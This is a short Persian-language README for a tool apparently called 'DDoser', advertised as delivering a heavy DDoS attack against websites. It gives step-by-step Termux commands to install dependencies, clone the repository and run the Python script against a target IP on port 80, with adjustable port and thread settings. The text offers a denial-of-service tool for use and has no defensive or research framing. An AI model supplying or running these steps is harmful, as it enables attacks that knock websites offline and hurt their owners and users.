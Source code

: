 # DDoser
دیداس سنگین به سایت
ابتدا وارد ترموکس شین و دستورات زیر بزنین
 
apt update 

apt upgrade -y

pkg install git -y

pkg install python -y

git clone https://github.com/AliCybeRR/DDoser

cd DDoser 

ls

chmod +x AliCybeRR.py

ls

python AliCybeRR.py

خب حالا باید اینجوری بزنین 


python AliCybeRR.py -s target ip -p 80 t-200 

اگه دستور بالا اوکی نبود

python3 AliCybeRR.py -s target ip -p 80 t- 200


میتونید پورت و توربو هم تغییر بدین
